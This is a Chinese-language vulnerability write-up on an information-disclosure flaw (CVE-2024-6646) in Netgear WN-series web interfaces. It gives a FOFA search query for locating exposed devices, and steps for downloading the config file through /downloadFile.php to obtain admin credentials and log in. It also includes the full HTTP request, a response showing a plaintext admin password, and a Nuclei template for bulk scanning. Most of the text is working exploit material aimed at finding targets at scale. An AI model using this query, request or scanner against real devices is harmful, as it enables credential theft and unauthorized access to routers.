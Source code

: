 **漏洞名称**

Netgear Web 界面 downloadFile.php 信息泄露漏洞

**漏洞影响**

Netgear WN系列产品

首页如下 

**漏洞描述**

Netgear的WN系列产品存在一个漏洞，该漏洞存在于Web界面的某个未知功能中，影响文件为/downloadFile.php。通过操纵带有输入配置的参数文件，攻击者可以获取敏感信息。该攻击可能远程发起。

**FOFA搜索语句**

title=="Netgear"

**漏洞复现**

访问路径/downloadFile.php?file=config下载配置文件

下载后查看文件内容，发现其中包含了用户名密码

第三步，登录系统

完整POC数据包如下

```yaml
GET /downloadFile.php?file=config HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.0.0 Safari/537.36 Edg/109.0.1518.69
Connection: close
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: en


```

响应内容如下

```yaml

HTTP/1.1 200 OK
Connection: close
Content-Length: 16753
Cache-Control: must-revalidate, post-check=0, pre-check=0
Content-Description: File Transfer
Content-Disposition: attachment; filename=config
Content-Transfer-Encoding: binary
Content-Type: application/force-download
Date: Thu, 11 Jul 2024 02:11:21 GMT
Expires: 0
Pragma: public
Server: lighttpd/1.4.18
X-Lighttpd-Send-File: /var/config
X-Powered-By: PHP/4.4.0

system:configVersion 3.0
system:basicSettings t
system:basicSettings:apName netgear.io%3B
system:basicSettings:sysMacAddress 00-00-00-00-00-00
system:basicSettings:sysVersion 1.0
system:basicSettings:sysCountryRegion 233
system:basicSettings:adminName admin
system:basicSettings:adminPasswd viiraviira
system:basicSettings:dhcpClientStatus 0
system:basicSettings:ipAddr 192.168.2.11
system:basicSettings:netmaskAddr 255.255.255.0
```

**批量扫描POC**

```yaml
id: CVE-2024-6646

info:
  name: Netgear Web 界面 downloadFile.php 信息泄露漏洞
  author: fgz
  severity: high
  description: 'Netgear的WN系列产品存在一个漏洞，该漏洞存在于Web界面的某个未知功能中，影响文件为/downloadFile.php。通过操纵带有输入配置的参数文件，攻击者可以获取敏感信息。该攻击可能远程发起。'
  tags: 2023
  metadata:
    max-request: 3
    fofa-query: title=="Netgear"
    verified: true

http:
  - method: GET
    path:
      - "{{BaseURL}}/downloadFile.php?file=config"
    headers:
      Accept-Encoding: gzip, deflate
      Accept-Language: en
    matchers:
      - type: dsl
        dsl:
          - "status_code == 200 && contains(body, 'adminPasswd')"
```


